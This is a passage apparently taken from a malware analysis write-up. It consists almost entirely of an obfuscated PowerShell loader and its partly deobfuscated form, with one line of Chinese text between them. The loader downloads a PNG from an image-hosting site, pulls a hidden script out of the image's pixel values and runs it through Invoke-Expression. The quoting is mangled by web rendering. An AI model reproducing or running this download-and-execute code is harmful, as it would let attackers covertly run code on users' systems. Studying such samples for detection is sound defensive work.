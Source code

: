 ```
&amp;(“`{`1`}``{`0`}`” -f’x’,’IE’) (((‘.(D’+’Nn’+'`{`0’+’`}``{`1’+’`}`DN’+’n-f’+(“`{`0`}``{`1`}`”-f ‘ fI’,’Qs’)+(“`{`0`}``{`1`}`”-f ‘fIQ’,’,’)+(“`{`0`}``{`1`}`” -f’fIQ’,’a’)+(“`{`0`}``{`1`}`”-f’lfI’,’Q’)+(((“`{`0`}``{`1`}``{`2`}`” -f ‘)’,’ Dfi i’,’ex’)))+’;.’+'(‘+’DNn`{`0`}``{`‘+’1`}`DNn’+’ ‘+’-f’+’fI’+(“`{`0`}``{`3`}``{`2`}``{`1`}`” -f ‘QS’,’Q’,’Q,fI’,’afI’)+’lf’+(((“`{`0`}``{`2`}``{`1`}`”-f’I’,’L n’,’Q) ‘)))+’e’+(“`{`2`}``{`1`}``{`0`}`”-f’;’,’t’,’w-objeC’)+’f’+’1’+’e`{`c’+’1`}`=((‘+'(DN’+’n`{`‘+’6’+’`}`’+'`{`3`}`’+'`{`10`}`’+'`{`‘+’4`}``{`8`}``{`‘+’5’+’`}``{`‘+’2’+’`}``{`11’+’`}``{`‘+’1`}``{`9`}``{`0’+’`}``{`7`}`DNn -f fIQ’+’w’+’f’+(“`{`0`}``{`2`}``{`1`}``{`3`}`” -f’IQ,f’,’awfI’,’IQ’,’Q,fI’)+(“`{`2`}``{`1`}``{`0`}`”-f’ ‘,’me’,’QNa’)+’Df’+’I’+(“`{`0`}``{`1`}`” -f’Q,’,’fIQ’)+’dd’+(“`{`0`}``{`1`}`”-f’-T’,’fI’)+(“`{`1`}``{`0`}`”-f ‘Q’,’Q,fI’)+’-Af’+’IQ,’+(“`{`1`}``{`0`}`” -f ‘Qb’,’fI’)+(“`{`0`}``{`1`}``{`2`}`” -f’l’,’yfIQ,’,’fIQA’)+(“`{`1`}``{`0`}`”-f ‘,f’,’fIQ’)+’IQ’+(“`{`0`}``{`1`}`”-f’;f’,’IQ,’)+’f’+’I’+(“`{`1`}``{`0`}`” -f’sse’,’Q’)+(“`{`0`}``{`1`}``{`2`}`” -f ‘m’,’fI’,’Q,fIQi’)+’n’+(“`{`1`}``{`0`}`” -f’D6fI’,’g’)+(“`{`1`}``{`0`}`” -f ‘,fIQype’,’Q’)+(“`{`0`}``{`1`}`” -f ‘ ‘,’fIQ’)+’,’+(“`{`0`}``{`1`}`”-f ‘fIQ’,’6wSyst’)+(“`{`0`}``{`2`}``{`1`}`” -f ’em.D’,’f’,’r’)+(((“`{`1`}``{`3`}``{`2`}``{`0`}`”-f ‘reS1ZP’,’IQ)).D’,’n’,’N’)))+’L’+(((“`{`1`}``{`0`}``{`2`}`” -f ‘C’,’A’,’eDNn(([‘)))+(“`{`1`}``{`2`}``{`3`}``{`0`}`” -f ‘A’,’ChA’,’r]68+’,'[Ch’)+’r]’+(“`{`0`}``{`1`}`” -f ’54’,’+[‘)+(“`{`1`}``{`0`}`” -f’1′,’ChAr]1′)+’9’+’),[‘+’sT’+’ri’+(“`{`1`}``{`0`}`”-f’][C’,’NG’)+’hA’+(“`{`0`}``{`1`}`” -f’r]’,’39’)+’));’+’f1e`{`c2`}`’+’=’+’f’+’I’+(“`{`1`}``{`0`}`”-f’f1e’,’Q’)+’tm’+’=f’+’IQ’+(“`{`1`}``{`0`}`” -f’h’,’fIQ’)+’t’+(“`{`0`}``{`1`}`” -f’tps:’,’/’)+(“`{`1`}``{`0`}`” -f ‘ima’,’/’)+’ges’+(“`{`0`}``{`1`}`”-f ‘2.imgb’,’o’)+’x’+’.c’+’o’+’m/d’+’8’+(“`{`1`}``{`2`}``{`0`}`”-f’u’,’/0′,’e/eyGV’)+’p7s’+’_o.’+(“`{`1`}``{`0`}`” -f’fIQ’,’pngfIQ’)+’;f’+’1e’+’r’+’y =’+(“`{`0`}``{`1`}`” -f’ [Sys’,’te’)+’m.N’+(“`{`1`}``{`0`}`”-f’ebR’,’et.W’)+’equ’+’es’+(“`{`0`}``{`1`}``{`2`}`”-f ‘t’,’]::’,’Creat’)+(((“`{`0`}``{`1`}`” -f ‘e(‘,’f1e’)))+’t’+’m);’+(“`{`0`}``{`1`}`” -f ‘f1′,’ery’)+’.Me’+(“`{`1`}``{`0`}`” -f ‘od =’,’th’)+’ f’+’I’+’QfI’+’QH’+(“`{`0`}``{`1`}`” -f’E’,’ADf’)+(“`{`1`}``{`2`}``{`0`}`”-f ‘;f1′,’IQ’,’fIQ’)+’e’+’ra’+’ ‘+’= f’+(“`{`0`}``{`1`}`” -f ‘1e’,’ry.’)+’G’+’etR’+’es’+(“`{`0`}``{`1`}`” -f ‘pon’,’s’)+(“`{`1`}``{`2`}``{`0`}`”-f ‘g’,’e(‘,’);f1e’)+’=’+’L ‘+’Sy’+’st’+’e’+’m’+’.’+’D’+’ra’+(((“`{`4`}``{`3`}``{`2`}``{`0`}``{`1`}`”-f’m’,’ap((‘,’t’,’g.Bi’,’win’)))+’L’+’ ‘+(“`{`1`}``{`2`}``{`0`}`” -f’ebC’,’Net.’,’W’)+(((“`{`2`}``{`1`}``{`3`}``{`0`}`” -f’.Ope’,’ien’,’l’,’t)’)))+’n’+’Rea’+(((“`{`1`}``{`0`}``{`2`}`” -f’t’,’d(f1e’,’m))’)))+(“`{`2`}``{`0`}``{`1`}`” -f ‘eo=’,’L’,’;f1′)+’ B’+’yte’+(“`{`1`}``{`0`}`”-f ‘ 165′,'[]’)+’60’+(((“`{`0`}``{`1`}`” -f ‘;’,'(0..’)))+’35)’+’uXc’+’%’+'`{`‘+(((“`{`2`}``{`0`}``{`1`}`” -f’each’,'(f’,’for’)))+’1ex’+(((“`{`1`}``{`0`}`” -f’in(‘,’ ‘)))+’0.’+’.4’+’59)’+’)`{`f’+’1ep’+(“`{`0`}``{`1`}`”-f’=f’,’1e’)+(“`{`1`}``{`0`}`” -f ‘et’,’g.G’)+(((“`{`0`}``{`1`}``{`3`}``{`2`}`”-f ‘Pixe’,’l(‘,’ex,’,’f1′)))+(((“`{`1`}``{`0`}``{`2`}`” -f ‘1e_’,’f’,’);’)))+’f1’+’e’+(“`{`2`}``{`1`}``{`0`}`”-f ‘6’,’1e_*4′,’o[f’)+’0+f’+’1’+’e’+’x’+(((“`{`0`}``{`1`}``{`3`}``{`2`}`”-f’]=(‘,'[math]’,’F’,’::’)))+’lo’+(((“`{`0`}``{`1`}`” -f’o’,’r((f’)))+’1’+’ep.’+(((“`{`1`}``{`0`}`”-f ’15)’,’B-band’)))+’*’+’16)’+’-b’+’o’+’r(f1e`{`‘+’P’+’`}`.DN’+(“`{`1`}``{`2`}``{`0`}`”-f ‘Nn-b’,’ng’,’D’)+’a’+(“`{`0`}``{`1`}`” -f ‘n’,’d 15′)+’))’+’`}`;f1ekk=’+'[S’+(“`{`0`}``{`1`}``{`2`}`”-f’yste’,’m’,’.Tex’)+’t.’+(“`{`0`}``{`2`}``{`1`}`”-f ‘En’,’di’,’co’)+(“`{`0`}``{`1`}``{`2`}`” -f’n’,’g]::UT’,’F8′)+(“`{`1`}``{`0`}``{`2`}`”-f ‘Get’,’.’,’Str’)+(((“`{`0`}``{`1`}`” -f’ing’,'(‘)))+’f’+’1eo’+'[‘+’0.’+’.’+’162’+’8’+’6])`}`fIQ;&amp;’+'(D’+’Nn`{`‘+’0`}``{`1`}`DNn -ffI’+(“`{`0`}``{`1`}`” -f’Qd’,’fIQ,’)+’fI’+(((“`{`0`}``{`1`}`” -f ‘Qfi’,’fIQ) ‘)))+’f1e’+’C1f’+’1ec’+(“`{`0`}``{`1`}`”-f’2uX’,’c’)+’&amp;(DNn`{`1`}``{`0’+’`}`DN’+’n’+’-‘+(“`{`1`}``{`0`}`” -f ‘fIQ’,’f’)+(“`{`2`}``{`1`}``{`0`}`” -f ‘,f’,’Q’,’ifI’)+’IQ’+(((“`{`1`}``{`0`}``{`2`}`”-f’IQ’,’dff’,’);f’)))+’1e`{`kk`}`uXc.(DN’+’n’+'`{`1’+’`}`’+'`{`0`}`D’+’N’+’n-f’+(“`{`1`}``{`2`}``{`0`}`”-f’Q’,’fIQi’,’fI’)+’,’+’f’+’IQd’+’ffI’+’Q)’)-CrePlacE([CHAr]68+[CHAr]78+[CHAr]110),[CHAr]34  -REPLace([CHAr]117+[CHAr]88+[CHAr]99),[CHAr]124 -CrePlacE’f1e’,[CHAr]36 -REPLace ([CHAr]83+[CHAr]49+[CHAr]90),[CHAr]96 -CrePlacE ([CHAr]102+[CHAr]73+[CHAr]81),[CHAr]39) )
```

产生如下代码片段：

```
代码片段4:
.(“`{`0`}``{`1`}`”-f ‘s’,’al’) Dfi iex;.(“`{`0`}``{`1`}`” -f’Sa’,’l’) L new-objeCt;$`{`c1`}`=(((“`{`6`}``{`3`}``{`10`}``{`4`}``{`8`}``{`5`}``{`2`}``{`11`}``{`1`}``{`9`}``{`0`}``{`7`}`” -f ‘w’,’aw’,’Name D’,’dd-T’,’-A’,’bly’,’A’,’;’,’ssem’,’ingD6′,’ype ‘,’6wSystem.Dr’)).”re`PLACe”(([ChAr]68+[ChAr]54+[ChAr]119),[sTriNG][ChAr]39));$`{`c2`}`=’$tm=”https://images2.imgbox.com/d8/0e/eyGVup7s_o.png”;$ry = [System.Net.WebRequest]::Create($tm);$ry.Method = ”HEAD”;$ra = $ry.GetResponse();$g=L System.Drawing.Bitmap((L Net.WebClient).OpenRead($tm));$o=L Byte[] 16560;(0..35)|%`{`foreach($x in(0..459))`{`$p=$g.GetPixel($x,$_);$o[$_*460+$x]=([math]::Floor(($p.B-band15)*16)-bor($`{`P`}`.”g”-band 15))`}`;$kk=[System.Text.Encoding]::UTF8.GetString($o[0..16286])`}`’;&amp;(“`{`0`}``{`1`}`” -f’d’,’fi’) $C1$c2|&amp;(“`{`1`}``{`0`}`”-f’i’,’df’);$`{`kk`}`|.(“`{`1`}``{`0`}`”-f’i’,’df’)
```
